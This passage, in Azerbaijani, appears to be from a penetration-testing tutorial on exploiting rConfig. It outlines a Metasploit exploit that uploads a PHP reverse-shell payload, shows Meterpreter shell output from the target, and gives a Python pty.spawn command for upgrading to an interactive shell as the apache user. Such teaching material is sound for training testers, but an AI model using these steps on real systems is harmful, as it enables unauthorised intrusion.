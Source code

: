 
Eksploitasiya prosesində göstərilən addımlardan görə bilərik ki, bu eksploit:

*   rConfig-in həssas versiyasını yoxlayır
*   rConfig veb girişi ilə autentifikasiya olunur
*   Reverse shell əlaqəsi üçün PHP əsaslı bir payload yükləyir
*   Payload-u silir
*   Bizə Meterpreter shell sessiyası qoyur

**Shell-lə Qarşılıqlı Əlaqə**
```
meterpreter > shell

Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```

Sankı daxil olub terminal açmışıq kimi hədəf sistemə giriş əldə etmək üçün sistem shell-inə (`shell`) düşə bilərik.

**Python ilə TTY Shell Yaradılması**

Sistem shell-inə düşəndə, heç bir promptun olmadığını görürük, buna baxmayaraq hələ də bəzi sistem əmrlərini verə bilirik. Bu, adətən qeyri-tty shell kimi istinad olunan bir shell-dir. Bu shell-lər məhdud funksionallığa malikdirlər və tez-tez `su` (istifadəçi dəyişdir) və `sudo` (super istifadəçi et) kimi vacib əmrlərdən istifadəmizi maneə törədə bilər, hansı ki, imtiyazları artırmaq istəsək, çox güman ki, ehtiyacımız olacaq. Bu baş verdi, çünki payload hədəfdə `apache` istifadəçisi tərəfindən icra olundu. Sessiyamız `apache` istifadəçisi kimi qurulub. Normalda, adminlər sistemə `apache` istifadəçisi kimi daxil olmur, ona görə də `apache` ilə əlaqəli mühit dəyişənlərində shell interpretator dilinin müəyyən edilməsinə ehtiyac yoxdur.

Əgər sistemdə mövcuddursa, Python istifadə edərək manual olaraq TTY shell yarada bilərik. Linux sistemlərində Python-un olub-olmadığını həmişə yoxlaya bilərik: `which python`. Python istifadə edərək TTY shell sessiyası yaratmaq üçün aşağıdakı əmri yazırıq:

**İnteraktiv Python**
```
python -c 'import pty; pty.spawn("/bin/sh")' 

sh-4.2$         
sh-4.2$ whoami
whoami
apache
```

Bu əmr python-dan `pty` modulunu import etmək, sonra bourne shell ikili faylını (`/bin/sh`) icra etmək üçün `pty.spawn` funksiyasından istifadə edir. İndi bizim promptumuz var (`sh-4.2$`) və sistem ətrafında istədiyimiz kimi hərəkət etmək üçün daha çox sistem əmrinə girişimiz var.
